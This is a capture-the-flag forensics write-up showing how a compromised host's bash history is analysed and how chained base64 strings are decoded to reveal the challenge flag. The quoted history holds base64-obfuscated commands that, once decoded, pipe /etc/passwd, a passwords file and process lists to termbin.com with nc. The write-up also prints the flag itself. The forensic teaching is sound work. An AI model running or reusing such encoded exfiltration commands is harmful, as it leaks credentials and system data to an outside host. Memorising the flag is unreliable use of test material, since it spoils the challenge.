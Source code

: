 # Bash history

## Task

We suspect that one of BB's internal hosts has been compromised. I copied its ~./bash_history file. Maybe, there are some suspicious commands?

File: bash_history

Tags: forensics

## Solution

There is a lot of noise in the file, we can filter that out:

```bash
$ grep -Ev '^(totp-gen|ssh petr@praha-00[0-9])' bash_history
```

We notice some `echo BASE64 | base64 -d | bash` which looks very suspicious.

```bash
echo YnJubzAwMQ== | base64 -d
echo cHMgYXggPiBwcm9jZXNzZXM= | base64 -d | bash
echo Y2F0IHByb2Nlc3NlcyB8IG5jIHRlcm1iaW4uY29tIDk5OTk= | base64 -d | bash
echo cm0gcHJvY2Vzc2Vz | base64 -d | bash
echo bHMgLWwgfCBuYyB0ZXJtYmluLmNvbSA5OTk5 | base64 -d | bash
echo xYTjBNR3hsTFdGc2JDMUVZWFJoSVNGOQ==
echo ZWNobyBjM2x6YTNKdmJrTlVSbnQwU0dWNU
echo Y2F0IC9ldGMvcGFzc3dkIHwgbmMgdGVybWJpbi5jb20gOTk5OQ== | base64 -d | bash
echo Y2F0IHBhc3N3b3Jkcy50eHQgfCBuYyB0ZXJtYmluLmNvbSA5OTk5 | base64 -d | bash
```

There are two echos that don't base64-decode the string. To be on the safe side of not accidentally copy-pasting the whole line and executing random code we use python:

```bash
$ python -c 'from base64 import b64decode as decode; print(decode("ZWNobyBjM2x6YTNKdmJrTlVSbnQwU0dWNU"))'
$ python -c 'from base64 import b64decode as decode; print(decode("xYTjBNR3hsTFdGc2JDMUVZWFJoSVNGOQ=="))'
```

First one throws an exception due to incorrect padding: `binascii.Error: Incorrect padding`. Second one is just binary and unusable.

But wait! What if we combine those two?

```bash
$ python -c 'from base64 import b64decode as decode; print(decode("ZWNobyBjM2x6YTNKdmJrTlVSbnQwU0dWNUxYTjBNR3hsTFdGc2JDMUVZWFJoSVNGOQ=="))'
b'echo c3lza3JvbkNURnt0SGV5LXN0MGxlLWFsbC1EYXRhISF9'
```

This looks like another round of good old base64.

```bash
$ python -c 'from base64 import b64decode as decode; print(decode("c3lza3JvbkNURnt0SGV5LXN0MGxlLWFsbC1EYXRhISF9"))'
b'syskronCTF{tHey-st0le-all-Data!!}'
```
